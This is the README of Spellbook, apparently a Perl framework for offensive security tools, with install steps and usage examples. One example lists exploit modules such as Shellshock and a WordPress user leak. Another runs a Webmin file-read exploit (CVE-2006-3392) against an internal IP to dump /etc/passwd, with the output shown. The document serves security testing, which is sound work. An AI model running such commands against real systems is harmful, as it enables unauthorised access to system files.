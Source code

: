 <p align="center">
  <img src="https://heitorgouvea.me/images/projects/spellbook/logo.png" width="120px" height="120px">
  <h3 align="center"><b>Spellbook</b></h3>
  <p align="center">A micro-framework for rapid development of reusable security tools</p>
  <p align="center">
    <a href="https://github.com/htrgouvea/spellbook/blob/master/LICENSE.md">
      <img src="https://img.shields.io/badge/license-MIT-blue.svg">
    </a>
    <a href="https://github.com/htrgouvea/spellbook/releases">
      <img src="https://img.shields.io/badge/version-0.2.3-blue.svg">
    </a>
  </p>
</p>

---

### Summary

Spellbook uses FBP: "In computer programming, flow-based programming (FBP) is a programming paradigm that defines applications as networks of "black box" processes, which exchange data across predefined connections by message passing, where the connections are specified externally to the processes. These black box processes can be reconnected endlessly to form different applications without having to be changed internally. FBP is thus naturally component-oriented." [[1]](https://en.wikipedia.org/wiki/Flow-based_programming)

The main focus of this “micro-framework” is turn in reality the rapid development of security tools using reusable patterns of FBP. 

"Third clark law: any sufficiently advanced technology is indistinguishable from magic" - that's why this project is called spellbook.

---

### Download and install

```bash
# Download
$ git clone https://github.com/htrgouvea/spellbook && cd spellbook

# Install libs and dependencies
$ cpan install Getopt::Long Mojo::File Mojo::JSON Find::Lib
```

---

### How to use

```
Spellbook v0.2.3
Core Commands
==============
	Command          Description
	-------          -----------
	-s, --search     List modules, you can filter by category
	-m, --module     Set a module to use
	-h, --help       To see help menu of a module
```

### Example

```
# Searching for exploits 
$ perl spellbook.pl --search exploit

Module: Exploit::CVE_2017_5487
Description: Read usernames leaked on WordPress API
=================================================

Module: Exploit::Shellshock
Description: Exploit for shellshock vuln
=================================================

Module: Exploit::Subdomain_Takeover_Check
Description: A checker for the possibility of subdomain takeover attack
=================================================
[...]
```

```
# Using an exploit
$ perl spellbook.pl -m Exploit::CVE_2006_3392 --help

Exploit::CVE_2006_3392
=======================
-h, --help     See this menu
-t, --target   Define a target
-f, --file     Define a file to read
```

```
$ perl spellbook.pl -m Exploit::CVE_2006_3392 -t http://172.30.0.15:10000/ -f /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
[...]
```

If you are interested in developing new modules, a good start point is to read the [development guide](/wiki/Developer-Guide).

---

### Contribution

- Your contributions and suggestions are heartily ♥ welcome. [See here the contribution guidelines.](/.github/CONTRIBUTING.md) Please, report bugs via [issues page](https://github.com/htrgouvea/spellbook/issues) and for security issues, see here the [security policy.](/SECURITY.md) (✿ ◕‿◕)

- If you are interested in providing financial support to this project, please visit: [heitorgouvea.me/donate](https://heitorgouvea.me/donate)

---

### License

- This work is licensed under [MIT License.](/LICENSE.md)
